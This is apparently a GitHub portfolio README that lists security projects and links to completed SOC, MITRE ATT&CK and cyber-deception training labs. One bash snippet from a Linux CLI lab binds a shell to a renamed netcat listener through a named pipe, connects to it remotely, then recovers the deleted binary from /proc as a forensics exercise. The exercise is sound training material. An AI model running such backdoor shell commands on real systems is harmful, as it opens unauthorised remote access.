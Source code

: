 # All Projects

[Vulnerability Management Tenable](/Vulnerability%20Management%20Tenable)

[Password Strength Checker and Password Generator](/Password)

[EXIF data](/EXIF%20data)

[Subdomain Enumeration and Reconnaissance](/Subdomain%20Enumerator)

[Bypass Windows Login Screen](Bypass%20Windows%20Login%20Screen)

[Linux Login Bypass and Prevention](/Linux%20Login%20Bypass%20and%20Prevention)

[Caesar Cipher Encryptor and Decryptor](/Caesar%20Cipher%20Encryptor%20and%20Decryptor)

[LSB Steganography](/LSB%20Steganography)

[Linkedin Automated Messaging](/Linkedin%20Automated%20Messaging)

[Password Hash Cracker](/Password%20Hash%20Cracker)



## SOC Core Skills with John Strand by Antisyphon Training (Successfully finished practice labs)

  - [TCPDump](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/TCPDump/TCPDump.md)
  - [Wireshark](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Wireshark/Wireshark.md)
  - [Linux CLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md)
  
```bash
mv /nc ./notnetcat
mknod backpipe p
/bin/bash backpipe 0<backpipe | notnetcat -l 2222 1>backpipe

#Other Terminal
nc 10.10.104.64 2222
rm ./notnetcat

netcat gone but still works
cd /proc/11625
cp ./exe /tmp/backupexe
cd /tmp
strings ./backupexe | less
```






  - [Memory Analysis (Volatility)](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Memory/MemoryAnalysis(Volatility).md)
  - [Web Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebLogReview/WebLogReview.md)
  - [WindowsCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md)
  - [RITA](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)
  - [Nessus](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/nessus/Nessus.md)
  - [Web Testing](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebTesting/WebTesting.md)
  - [DeepBlueCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/deepbluecli/DeepBlueCLI.md)
  - [Domain Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/DomainLogReview/DomainLogReview.md)
  - [Velociraptor](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Velociraptor/Velociraptor.md)
  - [Firewall Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/FirewallLog/FirewallLog.md)
  - [Elk In The Cloud](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/md/elk_in_the_cloud.md)
  - [Elastic Agent](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/md/elastic_agent.md)
  - [Sysmon in ELK](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/md/sysmon_logs.md)
  - [Lima Charlie](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/limacharlie/limacharlie.md)
  - [Lima Charlie & Atomic Red](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/LCmeetsAtomicRed/LCAR.md)
  - [AC Hunter CE](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/ACHCE/ACHunterCE.md)
  - [Hunting DCSync, Sharepoint and Kerberoasting](https://github.com/strandjs/IntroLabs/tree/master/IntroClassFiles/Tools/IntroClass/PoisoningtheWellIR-main)

## Getting Started in Security with BHIS and MITRE ATT&CK with John Strand by Antisyphon Training (Successfully finished practice labs)

 - [Applocker](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/AppLocker/AppLocker.md)
 - [Atomic RedTeam and Bluespawn](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/bluespawn/Bluespawn.md)
 - [DeepBlueCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/deepbluecli/DeepBlueCLI.md)
 - [Nessus](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/nessus/Nessus.md)
 - [Host Firewalls and Nmap](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Nmap/Nmap.md)
 - [Password Cracking](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PasswordCracking/PasswordCracking.md)
 - [Password Spraying](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PasswordSpray/PasswordSpray.md)
 - [Responder](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Responder/Responder.md)
 - [RITA and AC Hunter](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)
 - [Sysmon](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Sysmon/Sysmon.md)
 - [Web Testing](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebTesting/WebTesting.md)
 - [Falcon](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/falcon.md)
 - [ConnectSecure](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/Connectsecure.md)
 - [Azure IR](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/AZURE-MSP-WRITEUP-main/README.md)
 - [AC Hunter CE](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/ACHCE/ACHunterCE.md)
  
## Active Defense & Cyber Deception With John Strand by Antisyphon Training (Ongoing practice labs)

  - [Spidertrap](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Spidertrap.md)
  - [Cowrie](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Cowrie.md)
  - [Canarytokens](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/canarytokens/Canarytokens.md)
  - [RITA](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)
  - [Bluespawn](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/bluespawn/Bluespawn.md)
  - [Portspoof](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Portspoof.md)
  - [HoneyBadger](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/HoneyBadger.md)
  - [HoneyShare](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/honeyshare/HoneyShare.md)
  - [HoneyUser](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/honeyuser/honeyuser.md)
  - [AdvancedC2](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/pcap/AdvancedC2PCAPAnalysis.md)
  - [WebHoneypot](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/webhoneypot/webhoneypot.md)
  - [File Audit](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/FileAudit/FileAudit.md)
